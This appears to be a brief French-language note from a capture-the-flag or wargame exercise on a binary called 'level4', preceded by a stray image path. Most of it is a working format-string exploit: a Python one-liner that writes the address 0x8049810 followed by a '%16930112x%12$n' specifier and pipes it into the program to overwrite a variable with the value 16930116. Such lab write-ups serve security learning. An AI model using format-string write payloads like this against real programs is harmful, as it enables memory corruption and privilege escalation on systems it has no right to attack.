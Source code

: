 16930116 valeur a faire matcher
0x8049810 adresse de la variable a changer (MOV variable)

(python -c 'print "\x10\x98\x04\x08%16930112x%12$n"') | ./level4